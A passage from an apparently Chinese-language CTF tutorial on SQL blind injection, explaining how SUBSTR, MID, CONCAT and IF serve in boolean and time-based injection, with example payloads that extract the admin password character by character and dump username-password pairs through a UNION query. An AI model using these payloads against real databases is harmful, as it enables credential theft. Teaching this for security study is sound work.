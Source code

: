   

  ![image-20230504212127894](https://nssctf.wdf.ink//img/WDTJ/202305042121944.png)

  通过前部分长度的获取，结合 `substr()` 就可以对一个具体的字符数据进行fuzz了。

  这里推荐编写脚本来完成这样繁琐的工作。

  除了上述用法 `SUBSTR()`函数还可以用于替换字符串中的某个字符：

  ```sql
  UPDATE users SET username=SUBSTR(username,1,3)||'***'||SUBSTR(username,7) WHERE username='admin'
  ```

  面的SQL语句的作用是将管理员账户的用户名中的第4到第6个字符替换为`***`

  通过对该函数的组合使用，可以在不使用联合注入和依赖可视回显的方式拿到对应数据：

  ```sql
  SELECT username,password FROM users WHERE id = 1 AND SUBSTR((SELECT password FROM users WHERE username='admin'),1,1)='a'
  ```

- `MID()`函数也是用于截取字符串的函数。

  `MID(string, start, length)` 

  ```sql
  MID("Hello, World!", 1, 5) # 返回的结果为"Hello"；
  SUBSTR("Hello, World!", 1, 5) # 返回的结果为"Hello"。
  ```

- `CONCAT()`

  `CONCAT()`函数用于将多个字符串连接成一个字符串。

  ```sql
  CONCAT(string1, string2, ...)
  ```

  ```sql
  SELECT username,password FROM users WHERE id = 1 union select CONCAT(username,'-',password),1 from users;
  ```

  ![image-20230504221859903](https://nssctf.wdf.ink//img/WDTJ/202305042218959.png)

  而在盲注中，我们通常用其的连接功能减少查询跳转。

#### 时间盲注

其实和布尔差不多，只不过是利用SQL语句的执行时间来判断SQL语句的真假，从而逐步推断出数据库中的数据。

下面是一些常用函数 和使用技巧：

- `IF()`

  `IF()`函数是一种条件判断函数，它用于判断指定条件是否成立，并根据判断结果返回不同的值.

  ```sql
  IF(condition, value_if_true, value_if_false)
  ```
